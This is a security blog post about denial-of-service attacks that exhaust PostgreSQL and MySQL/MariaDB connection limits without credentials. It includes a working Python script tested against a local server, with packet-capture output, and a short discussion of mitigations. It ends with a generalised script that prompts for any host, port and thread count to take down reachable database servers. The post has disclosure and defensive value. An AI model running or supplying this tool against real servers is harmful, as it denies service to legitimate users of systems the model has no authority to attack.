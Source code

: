 ```yaml
---
layout: post
title: "How to DoS MySQL/MariaDB and PostgresSQL Servers With Fewer Than 55kb of Data"
author: "Joshua Rogers"
categories: security
---
```


title: TIL: It's remarkably simple to DoS MySQL/MariaDB and PostgreSQL

At the heart of any Denial of Service (DoS) attack, there are two variables: a resource, and the limit of of which that resource can grow to: network bandwidth, processing power, or connection limits. A DoS attack is simply: the denial of a service to a legitimate user either deliberately or accidentally. Likewise, in any successful DoS attack, an attacker generally needs to make use of at least the same resource for which they are attacking. If you're performing a DoS attack on a server with a 10GbE uplink, an attacker will need attack with 10Gb/s of resources, to exhaust the resources of the uplink.

That's why I was surprised to recently discover that it's incredibly easy to DoS MySQL/MariaDB and PostgresSQL servers.

---

I was recently reading the documentation for PostgresSQL. Specifically, the _max_connections_ attribute: _max_connections (integer)_: _Determines the maximum number of concurrent connections to the database server. The default is typically 100 connections, but might be less if your kernel settings will not support it (as determined during initdb). This parameter can only be set at server start._

It made me wonder: is it possible to open 100 connections to a PostgresSQL database and let it idle, denying service to legitimate connections of the database? As it turns out, yes, and __even without credentials to access any database__: as long as the SQL server is reachable and it can receive our TCP packets, we can easily deny access to it for legitamte users.

---

I made a quick script to exhaust the default amount of connections of a local PostgresSQL server:

```python
import socket
import struct
import concurrent.futures

host = '127.0.0.1'
port = 5432

def postgres_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))

                startup_message = b'\x00\x03\x00\x00user\x001\x00database\x001\x00\x00'
                message_length = len(startup_message) + 4
                message_length_bytes = struct.pack('!I', message_length)
                sock.sendall(message_length_bytes + startup_message)

                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

if __name__ == "__main__":
    with concurrent.futures.ThreadPoolExecutor(max_workers=100) as executor:
        futures = [executor.submit(postgres_connect, host, port) for _ in range(100)]

        for future in concurrent.futures.as_completed(futures):
            pass
```

I then tested:
```bash
# python3 py.py  &
[1] 1611
# psql -U user -ww -h 127.0.0.1 -d database
psql: error: connection to server at "127.0.0.1", port 5432 failed: FATAL:  sorry, too many clients already
connection to server at "127.0.0.1", port 5432 failed: FATAL:  sorry, too many clients already
```

So despite not having any authentication data for the server, we could still DoS it.

---

How much data does this consume in total?
```
# tcpdump -i any -s 0 -w captured_traffic.pcap 'port 5432'
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
^C700 packets captured
1400 packets received by filter
0 packets dropped by kernel
# tshark -r captured_traffic.pcap -Y "tcp.port == 5432" -T fields -e frame.len | awk '{ sum += $1 } END { print "Total data transferred:", sum / 1024, "KB" }'
Total data transferred: 53.0273 KB
```


So with just 53KB of data, we can totally exhaust PostgresSQL's connection limit. This isn't a rate of data exchange either, as the connection only needs to be left open: data does not need to be sent or received.

---

I ended up testing MySQL/MariaDB, too, and as it turns, we can DoS those servers quite easily as well. A [bug report from 2006](https://bugs.mysql.com/bug.php?id=16227) outlines the same issue, but it remains "unfixed". But is it really a bug? That's an option question.

---

In some cases, there can be a legitimate reason to have an SQL server accessible either via the internet or within some private network which may contain illegitimate users. Data in a database doesn't always have to be private, and may be publicly accessible. So how can we stop this attack? Well it's seemingly quite difficult.

We could raise the _max_connections_ limit, but then an attacker can just open more connections. We could use stateful firewalling like Linux's iptables to rate-limit connections, but then an attacker could perform a spoofed syn-flood from a single server [which could overflow the conntrack table](https://blog.cloudflare.com/conntrack-tales-one-thousand-and-one-flows/). Some middleware like pgbouncer or pgpool could also be effective, but then who knows whether we would just exhaust the [connection limit for those softwares](https://www.pgbouncer.org/config.html#max_client_conn).

One might be able to hack away at the source of MySQL/MariaDB or PostgresSQL and not count unauthenticated requests in the _max_connections_ count, but then we might just be able to exhaust the open file descriptor limits. On my system, MariaDB has both a soft and hard limits of 32768 ([which is configurable](https://dev.mysql.com/doc/refman/8.0/en/mysqld-safe.html#option_mysqld_safe_open-files-limit)). :
```
# sudo systemctl show mariadb | grep LimitNOFILE
LimitNOFILE=32768
LimitNOFILESoft=32768
```
On my system with PostgresSQL, the soft and hard limits are 1024 and 4096 respectively via ulimit. However in reality, the limit is actually 1000 by default, as [the postgres daemon has has an option](https://www.postgresql.org/docs/current/runtime-config-resource.html#GUC-MAX-FILES-PER-PROCESS) to ensure the soft limit won't be surpassed:
```
# cat /proc/$(ps ax | grep '/[p]ostgres' | awk '{print $1}')/limits | grep 'Max open files'
Max open files            1024                 4096                 files     
```

All of these limits can easily be exhausted.

I don't have much of a solution to this problem other than monitoring and eventually DROPing any addresses which are making higher than expected.


---

I also made a short script which can take down any reachable MySQL/MariaDB and PostgresSQL server:

```python
import socket
import struct
import concurrent.futures

def postgres_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))

                startup_message = b'\x00\x03\x00\x00user\x001\x00database\x001\x00\x00'
                message_length = len(startup_message) + 4
                message_length_bytes = struct.pack('!I', message_length)
                sock.sendall(message_length_bytes + startup_message)

                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

def mysql_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))
                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

if __name__ == "__main__":
    host = input("Enter the server host: ")
    port = int(input("Enter the server port: "))
    num_threads = int(input("Enter the number of threads: "))
    function_choice = input("Enter 'postgres' or 'mysql' to select the function to run: ")

    with concurrent.futures.ThreadPoolExecutor(max_workers=num_threads) as executor:
        if function_choice == 'postgres':
            futures = [executor.submit(postgres_connect, host, port) for _ in range(num_threads)]
        elif function_choice == 'mysql':
            futures = [executor.submit(mysql_connect, host, port) for _ in range(num_threads)]
        else:
            print("Invalid function choice. Please enter 'postgres' or 'mysql'.")

        # Wait for all threads to finish
        for future in concurrent.futures.as_completed(futures):
            pass
```

